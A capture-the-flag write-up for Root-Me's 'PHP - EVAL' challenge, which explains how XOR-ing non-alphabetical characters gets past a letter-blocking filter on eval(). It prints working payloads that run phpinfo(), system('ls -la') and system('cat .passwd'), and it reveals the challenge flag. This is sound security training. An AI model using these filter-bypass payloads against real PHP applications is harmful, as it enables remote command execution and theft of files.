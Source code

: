 ```yaml
---
title: "Advanced Filter Bypass | PHP - EVAL Rootme"
date: 2024-04-17
categories: [Web, PHP - EVAL]
tags: [Web Challenges, CTF] 
---
```



Hello, In this Writeup, I will explain methods for executing non-alphabetical PHP code to bypass PHP filters in [PHP - EVAL](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Eval) challenge.

## Challenge Source Code Analysis.
```php
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```

The PHP script first checks whether a POST parameter named `input` is present. If the input does not contain letters or backticks, it is evaluated as PHP code using eval(), with the result printed on the screen. However, if letters or backticks are detected, the script issues a warning: "Dangerous code."

## Spotting the bug.
After some research on Google, I discovered a method to bypass this filter, which is **Bypass using Non-alphabetical Character Encoding.** Let's discuss it, and we can use [onlinegdb](https://www.onlinegdb.com/) to test and run PHP code easily and quickly. In PHP, we can use the XOR operator between characters (not just numbers) to generate a different character.

![img_screenshot](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/c1b4322b-f443-47b2-8b02-fab5c3e1f748)

## Manuel Exploiting.
So, here's the idea behind our attack: what if we could reproduce an alphabetical character by xoring two non-alphabetical characters? How can we achieve this?

The XOR operator works like this: When you XOR any two numbers, it produces a result. If you XOR this result with one of the original numbers, you'll get the third number.

For example, let's say we want to produce the character s by XORing two unknown characters.

Steps to perform the attack:
- Get the ASCII decimal value of the letter **s**, which is 115, using the ord() function in Python.

- Select a random non-alphabetical character, such as **@**, and get its ASCII decimal value, which is 64.

- XOR these two decimal values and convert the result into a character using the chr() function in Python.

- Check if the resulting character is alphabetical. The goal is to ensure the character is non-alphabetical, so it can bypass the filter.

- Finally, XOR the random non-alphabetical character with the number obtained from the XOR operation, which will give us the letter we need.


![img_screenshot1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/734892cd-9efc-4dd0-b1c7-ea3e436aadb7)

I can now try this payload in our challenge website:  `"@"^"3"`

![img_screenshot2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/66e4baa4-2430-46c6-a9e2-5ffd554a6857)

## Automated Exploitation.
Nice, we can now automate this process using python, I write a simple python script to automate this task which 
is [php-non-alphabetical-Encoder](https://github.com/0XMohomiester/PHP-Non-Alphabetical-Encoder.git)

we can now use it to generate `phpinfo` word to execute `phpinfo()` in the server.

```python
python3 php-non-alpha-encoder.py phpinfo
("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@")
```
**How can we call this payload as a function?**

In PHP, if we declare `$__` as a variable and store the generated string from the tool in it, we can call it as `$__();` to execute it as a PHP function. We can use it like this:
```php
$__ = ("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@");
$__();
```

![img_screenshot3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/36cbf8b5-d666-4f00-8797-3c03e61e01c5)

we can use payload like this:  `system("ls -la")` to run system commands

```php
$_1 = (","^"@").("("^"[");
$_2 = "-"; 
$_3 = (","^"@").("!"^"@"); 
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");  
$__($_1 . " " . $_2 . $_3);
```

Good, Command executed and flag inside `.passwd` file. 

![img_screenshot4](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/4555d2f6-6ab0-472d-9f54-552cfa6a62ff)


We can now generate payload like : `system("cat .passwd")` to get the flag.

```php
$_1 = ("#"^"@").("!"^"@").(")"^"]");
$_2 = ("+"^"[").("!"^"@").("("^"[").("("^"[").("("^"_").("$"^"@");
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");
$__($_1 . " " . "." . $_2);
```
and Finally here is our flag : `M!xIng_PHP_w1th_3v4l_L0L`

![img_screenshot5](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/6ad9a53d-60af-4421-836b-6a9dc2be8e77)


Thanks for reading.

Follow me on [Linkedin](https://www.linkedin.com/in/0xmohomiester/)
